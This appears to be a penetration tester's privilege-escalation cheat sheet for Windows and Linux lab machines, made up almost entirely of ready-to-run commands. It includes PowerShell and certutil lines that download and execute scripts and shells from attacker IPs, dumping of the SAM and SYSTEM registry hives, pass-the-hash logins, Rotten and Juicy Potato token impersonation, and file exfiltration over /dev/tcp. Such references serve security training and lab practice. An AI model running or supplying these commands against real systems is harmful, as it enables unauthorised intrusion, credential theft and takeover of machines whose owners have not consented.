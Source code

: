 ## Meterpreter
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Get Powershell
```
load powershell
powershell_shell
```
### Port forward
```
portfw add -l 455 -p 455 -r 127.0.0.1
```
### Rotten Potato
```
load incognito
list_tokens -u
execute -cH -f rottenpotato.exe
impersonate_token BUILTIN\Administrators
```

## Windows
### Manual
```
whoami /all
net user
hostname
systeminfo
tasklist /SVC
ipconfig /all
route print
netstat -ano
netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
schtasks /query /fo LIST /v
wmic product get name, version, vendor
wmic qfe get Caption, Description, HotFixID, InstalledOn
accesschk.exe -uws "Everyone" "C:\Program Files"
powershell -c "driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path"
powershell -c "Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like '*VMware*'}"
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```
### Script
```
echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3/PowerUp.ps1') | powershell -noprofile -
certutil -urlcache -split -f http://192.168.119.199/windows-privesc-check2.exe
```

### Check permission
```
Get-ACL administrator | Fl *
icacls "file"
```

### Run as user
```
$SecPass = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $SecPass)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')" -Credential $cred
```

### Change file permission
```
cacls root.txt /t /e /p Alfred:F
```

### Get sam
```
reg save hklm\sam c:\sam
reg save hklm\system c:\system
```

### With NTLM hash
```
pth-winexe -U jeeves/administrator //10.10.10.63 cmd.exe
```

### Juicy Potato
```
JuicyPotato.exe -l 7777 -p C:\Users\Public\hope.exe -t *
```

### smbserver.py
On attacker machine
```
sudo smbserver.py quang `pwd`
```

On victim machine
```
New-PSDrive -Name "yoyo" -PSProvider FileSystem -Root "\\10.10.14.3\quang"
cd yoyo:
```
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```
or Create ps file with
```
$client = new-object System.Net.WebClient
$client.DownloadFile("http://10.10.14.3/shell.exe","C:\users\kohsuke\shell.exe")
```

## Bash
```
sockstat -l
cat .bash_history
history
sudo -l
```

### Sniffing
```
ssh 10.10.14.3@10.10.10.119 "tcpdump -i any -U -s0 -w - 'not port 22'" | wireshark -k -i -
```

### port forward
Attacker to victim
```
ssh -L attackerport:127.0.0.1:victimport user@domain
```
Victim to attacker
```
ssh -R attackerport:127.0.0.1:victimport user@attacker
```

### Move file
```
cat file > /dev/tcp/10.10.14.3/1234
```

### Find all world-writable files
```
find /bin -perm -o+w -print 2>/dev/null
```

## Others
### LinEnum
### linuxprivchecker.py
### pspy32
Find scheduled jobs without root
### windows exploit suggester
```
python windows-exploit-suggester.py --database 2020-05-19-mssb.xls --systeminfo systeminfo.txt
```
### https://www.fuzzysecurity.com/tutorials/16.html
